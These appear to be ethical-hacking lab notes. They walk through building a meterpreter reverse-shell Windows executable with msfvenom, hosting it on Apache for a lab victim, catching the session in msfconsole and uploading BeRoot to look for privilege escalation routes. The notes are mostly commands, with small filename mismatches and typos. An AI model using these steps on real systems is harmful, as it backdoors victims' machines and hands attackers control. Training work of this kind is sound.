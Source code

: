 ---------
**Lab2: Perform buffer overflow attack to gain access to a remote system**

------
**2. Perform privilege escalation to gain higher privileges

**Escalate privileges using privilege escalation tools and exploit client-side vulnerabilities**
Backdoor Using Metasploit
Crafting Windows executable through MSFVenom

	[parrot]
	sudo su
	msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Exploit.exe
-> create a malicious Windows executable file to share to victim

	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	cp /home/attacker/Desktop/Text.exe /var/www/html/share
	service apache2 start

Setting up reverse listener using msfconsole[](#setting-up-reverse-listener-using-msfconsole)

	[parrrot]
	msfconsole -q
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST 10.10.1.13
	set LPORT 444
	exploit/exploit -j -z


	[Windows 11]
	http://10.10.1.13/share
	Download and run the file Text.exe

	[parrot]
	After the exploit is run on the victim machine.
	Type sessions -i 1 (here, **1** is the id number of the session)
	sysinfo
	getuid

Gained access to the target system with normal user privileges, next task is to perform privilege escalation to attain higher-level privileges in the target system.

a]. Use privilege escalation tools (BeRoot), which allow you to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.
[parrot]

copy BeRoot tool from share folder to Desktop
Upload the tool to windows machine via meterpreter

	upload /home/attacker/Desktop/BeRoot/beRoot.exe 
	shell
	Run beRoot.exe
[Note: Windows privileges can be used to escalated privileges. These privileges include SeDebug, SeRestore & SeBackup & SeTakeOwnership, SeTcb & SeCreateToken, SeLoadDriver, and SeImpersonate & SeAssignPrimaryToken. BeRoot lists all available privileges and highlights if you have one of these tokens.]
